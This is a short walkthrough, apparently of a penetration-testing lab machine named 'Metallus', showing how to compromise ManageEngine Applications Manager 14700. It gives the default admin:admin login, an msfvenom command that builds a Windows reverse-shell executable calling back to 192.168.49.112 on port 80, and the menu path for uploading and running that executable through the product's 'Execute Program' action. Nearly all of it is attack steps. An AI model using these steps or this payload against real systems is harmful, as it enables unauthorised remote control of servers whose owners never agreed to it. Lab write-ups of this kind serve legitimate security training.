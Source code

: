 # Metallus

### Enumeration

```
40443/tcp open  unknown
```

ManageEngine Applications Manager

Default credentials -> admin:admin

Applications Manager 14700

### Access

```
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.112 LPORT=80 -f exe -o shell.exe
```

Admin -> Tools -> Upload Files and Binaries

**Checked** - Upload Script to \<Product\_Home>/working/

→ Execute Program

**Program to Execute:** shell.exe

**Directory to execute Program:** C:\Program Files\ManageEngine\AppManager14\working\\

→ Create Action -> Execute
